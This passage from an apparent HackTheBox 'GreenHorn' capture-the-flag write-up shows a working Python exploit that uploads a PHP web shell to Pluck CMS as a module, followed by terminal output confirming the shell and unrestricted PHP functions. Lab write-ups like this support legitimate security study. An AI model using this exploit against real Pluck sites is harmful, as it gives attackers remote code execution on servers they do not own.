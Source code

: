```python
    headers = {
        'Referer': f'{base_url}/admin.php?action=start',
    }
    headers.update(session.headers)
    zip_fp = tempfile.NamedTemporaryFile(suffix='.zip').name
    with tempfile.TemporaryDirectory() as tmp_dir:
        shutil.copy(php_fp, f'{tmp_dir}/x.php')
        shutil.make_archive(zip_fp[:-4], 'zip', tmp_dir)
    module_name = gen_string()
    files = {
        'sendfile': (f'{module_name}.zip', open(f'{zip_fp}', 'rb'), 'application/zip'),
        'submit': (None, 'Upload'),
    }
    response = session.post(url, files=files, headers=headers)
    os.remove(zip_fp)
    if 'The module has been installed successfully' not in response.text:
        print('[-] Failed to upload module')
        sys.exit(1)
    return f'{base_url}/data/modules/{module_name}/x.php'


def get_args():
    parser = argparse.ArgumentParser(description='Pluck CMS module install to RCE (Authenticated)', formatter_class=argparse.RawTextHelpFormatter, epilog=EPILOG_TXT)
    parser.add_argument('-u', help='Base URL', required=True)
    parser.add_argument('-p', help='Password', required=True)
    parser.add_argument('-f', help='PHP web shell path', required=True)
    return parser.parse_args()


if __name__ == '__main__':
    args = get_args()
    base_url = args.u
    password = args.p
    php_fp = args.f
    login(base_url, password)
    webshell_url = upload_module(base_url, php_fp)
    print(f'[+] Webshell uploaded to {webshell_url}')
```

Check if php file upload is successful and no `disable_functions` needs to bypass

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ echo '<?php phpinfo(); ?>' > phpinfo.php

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ python exploit.py -u http://greenhorn.htb -p iloveyou1 -f phpinfo.php
[*] Logging in
[*] Uploading module
[+] Webshell uploaded to http://greenhorn.htb/data/modules/rljchkxv/x.php

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn/exploit]
└─$ curl http://greenhorn.htb/data/modules/rljchkxv/x.php -s | grep disable_
<tr><td class="e">disable_classes</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">disable_functions</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
```
